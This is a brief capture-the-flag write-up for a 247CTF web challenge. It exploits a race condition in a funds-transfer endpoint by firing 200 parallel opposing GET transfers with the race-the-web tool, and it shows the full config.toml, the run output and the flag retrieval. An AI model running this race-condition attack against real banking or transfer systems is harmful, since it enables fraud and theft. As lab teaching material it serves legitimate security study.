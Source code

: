 exploit race condition

2 type request send in multi thread,
it's will make occure the race condition

I used super useful and strong tool,,

https://github.com/TheHackerDev/race-the-web

this tool is are so nice and fast

```
->$ race-the-web config.toml
```
this tool requre the config.toml in argument:

request type1: ?to=1&from=2&amount=50.
request type2: ?to=2&from=1&amount=50.

config.toml
```
# Specify the first request
[[requests]]
    # Use the GET request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50"
    # Set the request body.
    # body = "body=text"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Follow redirects
    #redirects = true

# Specify the second request
[[requests]]
    # Use the POST request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50"
    # Set the request body.
    #body = "val=1000"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Do not follow redirects
    #redirects = false

```

run 
```
->$ race-the-web config.toml 
Requests begin.
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50
```

finish

```
->$ curl https://e634a9e3f05457b9.247ctf.com/?flag\&from=2
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
